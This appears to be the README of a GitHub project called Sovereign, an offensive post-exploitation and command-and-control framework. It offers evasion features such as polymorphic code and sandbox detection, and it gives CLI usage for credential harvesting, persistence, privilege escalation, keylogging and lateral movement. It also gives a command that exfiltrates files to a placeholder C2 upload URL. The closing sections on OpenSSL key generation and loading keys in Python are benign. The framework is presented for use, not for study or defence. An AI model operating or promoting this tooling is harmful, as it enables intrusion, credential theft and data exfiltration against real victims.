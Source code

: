 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

# Features

- Enhanced Evasion Techniques: Polymorphic code, sandbox detection, time-based evasion.
- Advanced Post-Exploitation Modules: Credential harvesting, persistence, privilege escalation,
- reconnaissance, data exfiltration, keylogging, lateral movement.
- Secure Communication: Encrypted communication between agent and C2 server.
- Modular Design: Easily add new modules and functionalities.
- Logging and Reporting: Detailed logging and report generation.

# Usage

# Setting Up the C2 Server

1. Create a Python virtual environment and activate it:
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate

2. Install the required dependencies:
    pip install -r c2_server/requirements.txt

3. Run the C2 server:
    python c2_server/c2_server.py

# Using the CLI

The CLI provides various commands to interact with the framework.

List all registered agents:
    python cli/cli.py list_agents

Send a command to a specific agent:
    python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"

Generate an obfuscated payload for a specific platform:
    python cli/cli.py generate_payload --platform PLATFORM

Harvest credentials:
    python cli/cli.py harvest_credentials

Establish persistence:
    python cli/cli.py establish_persistence

Escalate privileges:
    python cli/cli.py escalate_privileges

Gather system information:
    python cli/cli.py gather_system_info

Exfiltrate data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

Start keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

Move laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

# Example Commands

Listing all registered agents:
    python cli/cli.py list_agents

Sending a command to a specific agent:
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"

Generating a payload for Windows:
    python cli/cli.py generate_payload --platform windows

Harvesting credentials:
    python cli/cli.py harvest_credentials

Establishing persistence:
    python cli/cli.py establish_persistence

Escalating privileges:
    python cli/cli.py escalate_privileges

Gathering system information:
    python cli/cli.py gather_system_info

Exfiltrating data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

Starting a keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

Moving laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

Logging and Reporting

Logs are stored in the c2_server.log file located in the c2_server directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
    python c2_server/c2_server.py generate_report

This will create a report.txt file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

Adding New Modules

To add new post-exploitation modules, create a new Python file in the c2_server/modules directory and implement the desired functionality. Update the CLI script to include commands for the new module.

Key Generation and Conversion

RSA Key Generation
To generate a pair of RSA keys, you can use the OpenSSL toolkit. Run the following commands to generate a private key and a public key:

Generate a private key:
    openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048

Extract the public key from the private key:
    openssl rsa -pubout -in private_key.pem -out public_key.pem

AES Key Generation
To generate an AES key, you can use OpenSSL as well:

Generate a 256-bit AES key:
    openssl rand -base64 32 > aes_key.txt

Conversion to XML
For certain applications, you may need to convert these keys into XML format. Below are examples of how you might format the keys in XML.

# Example RSA Private Key in XML
<RSAKeyValue>
  <Modulus>...</Modulus>
  <Exponent>...</Exponent>
  <P>...</P>
  <Q>...</Q>
  <DP>...</DP>
  <DQ>...</DQ>
  <InverseQ>...</InverseQ>
  <D>...</D>
</RSAKeyValue>

# Example RSA Public Key in XML
<RSAKeyValue>
  <Modulus>...</Modulus>
  <Exponent>...</Exponent>
</RSAKeyValue>

# Example AES Key in XML
<KeyValue>
  <Key>
    <Algorithm>AES</Algorithm>
    <Size>256</Size>
    <Value>Base64EncodedKeyHere</Value>
  </Key>
</KeyValue>

Secure Management of Keys
Ensure that keys are not stored in the repository. Instead, load them from secure storage at runtime. Below is an example of how you can load keys in a Python script:

import os
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

def load_private_key(path):
    with open(path, 'rb') as key_file:
        private_key = serialization.load_pem_private_key(
            key_file.read(),
            password=None,
        )
    return private_key

def load_public_key(path):
    with open(path, 'rb') as key_file:
        public_key = serialization.load_pem_public_key(key_file.read())
    return public_key

def load_aes_key(path):
    import xml.etree.ElementTree as ET
    tree = ET.parse(path)
    root = tree.getroot()
    aes_key = root.find('value').text
    return aes_key

private_key_path = os.getenv('PRIVATE_KEY_PATH')
public_key_path = os.getenv('PUBLIC_KEY_PATH')
aes_key_path = os.getenv('AES_KEY_PATH')

private_key = load_private_key(private_key_path)
public_key = load_public_key(public_key_path)
aes_key = load_aes_key(aes_key_path)

print("Keys loaded successfully.")

Setting Up Environment Variables
You can set up environment variables to point to the key file paths:

Example .env File
PRIVATE_KEY_PATH=/path/to/private_key.pem
PUBLIC_KEY_PATH=/path/to/public_key.pem
AES_KEY_PATH=/path/to/aes_key.xml

Running the Project
To run the project, follow the instructions below:

Clone the repository:
    git clone https://github.com/your-repo/Sovereign-C2.git
    cd Sovereign-C2

Install dependencies:
    pip install -r requirements.txt

Run the CLI:
    python cli/cli.py

Set up the environment variables:
    export $(cat .env | xargs)

# Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.
